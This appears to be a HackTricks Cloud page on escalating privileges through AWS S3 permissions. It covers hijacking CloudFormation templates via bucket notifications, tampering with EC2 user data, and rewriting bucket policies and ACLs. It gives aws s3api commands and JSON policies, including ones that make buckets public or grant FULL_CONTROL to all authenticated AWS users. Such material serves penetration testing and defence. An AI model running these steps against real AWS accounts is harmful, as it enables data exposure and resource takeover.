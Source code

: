 # AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

An attacker with those permissions over interesting buckets might be able to hijack resources and escalate privileges.

For example, an attacker with those **permissions over a cloudformation bucket** called "cf-templates-nohnwfax6a6i-us-east-1" will be able to hijack the deployment. The access can be given with the following policy:

```json
{
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Action":[
                "s3:PutBucketNotification",
                "s3:GetBucketNotification",
                "s3:PutObject",
                "s3:GetObject"],
            "Resource":[
                "arn:aws:s3:::cf-templates-*\/*",
                "arn:aws:s3:::cf-templates-*"]
        },
        {
            "Effect":"Allow",
            "Action":"s3:ListAllMyBuckets",
            "Resource":"*"
        }]
    }
```

And the hijack is possible because there is a **small time window from the moment the template is uploaded** to the bucket to the moment the **template is deployed**. An attacker might just create a **lambda function** in his account that will **trigger when a bucket notification is sent**, and **hijacks** the **content** of that **bucket**.

![](<../../../.gitbook/assets/image (174).png>)

The Pacu module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) can be used to automate this attack.\
For mor informatino check the original research: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

These are the permissions to **get and upload objects to S3**. Several services inside AWS (and outside of it) use S3 storage to store **config files**.\
An attacker with **read access** to them might find **sensitive information** on them.\
An attacker with **write access** to them could **modify the data to abuse some service and try to escalate privileges**.\
These are some examples:

* If an EC2 instance is storing the **user data in a S3 bucket**, an attacker could modify it to **execute arbitrary code inside the EC2 instance**.

### `s3:PutBucketPolicy`

An attacker, that needs to be **from the same account**, if not the error `The specified method is not allowed will trigger`, with this permission will be able to grant himself more permissions over the bucket(s) allowing him to read, write, modify, delete and expose buckets.

```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
    "Id": "Policy1568185116930",
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:root"
            },
            "Action":"s3:ListBucket",
            "Resource":"arn:aws:s3:::somebucketname"
        },
        {
            "Effect":"Allow",
            "Principal":{
                "AWS":"arn:aws:iam::123123123123:user/username"
            },
            "Action":"s3:*",
            "Resource":"arn:aws:s3:::somebucketname/*"
        }
    ]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
  "Id": "Policy1568185116930",
  "Version": "2012-10-17",
  "Statement": [
  {
      "Sid": "Stmt1568184932403",
      "Action": [
        "s3:ListBucket"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:s3:::welcome",
      "Principal": "*"
  },
  {
    "Sid": "Stmt1568185007451",
    "Action": [
      "s3:GetObject"
    ],
    "Effect": "Allow",
    "Resource": "arn:aws:s3:::welcome/*",
    "Principal": "*"
  }
  ]
}
```

### `s3:GetBucketAcl`, `s3:PutBucketAcl`

An attacker could abuse these permissions to **grant him more access** over specific buckets.\
Note that the attacker doesn't need to be from the same account. Moreover the write access

```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectAcl`

An attacker could abuse these permissions to grant him more access over specific objects inside buckets.

```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag 
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

An attacker with these privileges is expected to be able to put an Acl to an specific object version

```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
